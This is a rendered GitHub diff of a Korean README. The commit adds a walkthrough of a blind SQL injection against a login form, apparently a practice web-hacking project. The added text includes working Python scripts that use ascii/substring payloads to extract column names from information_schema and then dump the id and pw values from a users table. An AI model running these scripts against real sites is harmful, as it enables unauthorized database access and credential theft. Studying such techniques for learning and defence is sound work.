

Before and after one commit to MLTree2/HK, a Markdown page: webH/1. SQL_Injection/README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/webH/1. SQL_Injection/README.md
+++ b/webH/1. SQL_Injection/README.md
@@ -153,7 +153,78 @@ def fun_5(dbname,table_len):
     print(res)
     return res
  ```
-ㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡ 여기서 부터 수정
+해당 반복문을 돌며 각 테이블별 컬럼 이름의 길이를 찾을 수 있습니다. 이때 MAX_LENGTH 를 임의로 정하여 MAX_LENGTH 에 도달하여도 길이를 찾을 수 없으면 더이상 컬럼이 존재하지 않는 형식으로 만들어져 있습니다.
+
+[fun 6]
+
+결과는 위 사진과 같이 입력을 ['board','usesrs']을 넣었을 때 각각의 컬럼의 길이가 [4, 7, 7, 4, 3, 4], [4, 19, 17, 29, 24, 2, 2]으로 나오는 것을 확인 할 수 있습니다.
+
+**6. 컬럼이름 찾기**
+
+```python
+def fun_7(table_name,col_len):
+    print('processing Fun_7...')
+    res=[]
+    for num_1 in range(len(col_len)):
+        col=[]
+        for num_2 in range(col_len[num_1]):
+            num_3 = 65
+            while True:
+                SQLINJq = f"' or 1=1 and ascii(substring((select column_name from information_schema.columns where table_name='{table_name}' limit {num_1},1),{num_2+1},1)) = {num_3}#"
+                req = requests.post(url,data=f"id={SQLINJq}&pw=pw&login=Login",headers={'Content-Type': 'application/x-www-form-urlencoded'})
+                if  "invalid" not in req.text:
+                    #print(f"success with {num_3}")
+                    col.append(chr(num_3))
+                    break
+                num_3 +=1
+        res.append(''.join(col))
+    print(res)
+```
+컬럼의 이름을 찾는것은 테이블의 이름을 찾는 형식과 유사합니다. 다음은 입력을 `fun_7('users',[4, 19, 17, 29, 24, 2, 2])`으로 했을 때의 결과입니다.
+
+[fun 7]
+
+위에서 찾은 컬럼의 길이와 일치하는 것을 볼 수 있습니다.
+
+**7. 원하는 데이터 얻기**
+
+```python
+def fun_8(table_name, col_names):
+    print('processing Fun_8...')
+    res = []
+
+    for col_num, col_name in enumerate(col_names):
+        num_0 = 0
+
+        while True:
+            col = []
+            num_1 = 0
+            while True:
+                end = 0
+                for num_2 in range(32, 128):
+                    SQLINJq = f"' or 1=1 and ascii(substring((select {col_name} from {table_name} limit {num_0},1),{num_1+1},1))={num_2}#"
+                    #print(SQLINJq)
+                    req = requests.post(url, data=f"id={SQLINJq}&pw=pw&login=Login", headers={'Content-Type': 'application/x-www-form-urlencoded'})
+                    if "invalid" not in req.text:
+                        #print(f"success with {num_2}")
+                        col.append(chr(num_2))
+                        end = 1
+                        break
+                num_1 += 1
+                if not end:
+                    break
+            if not col:
+                break
+            res.append(''.join(col))
+            num_0 += 1
+
+    print(res)
+```
+마지막으로는 실제로 컬럼안의 정보를 얻는 작업입니다. 예시로 `users` 테이블의 `id` ,`pw` 컬럼의 정보를 얻기위하여 입력값을 `fun_8('users',['id','pw'])`으로 설정하였습니다.
+
+[fun 8]
+
+로그인 form에서 Blind_SQL_Injection을 이용하여 id 값과 pw 값을 얻는데 성공하였습니다.
 
 ## 게시판 화면
 
````
Also changed, not shown: other parts of webH/1. SQL_Injection/README.md (+2 -2 lines).
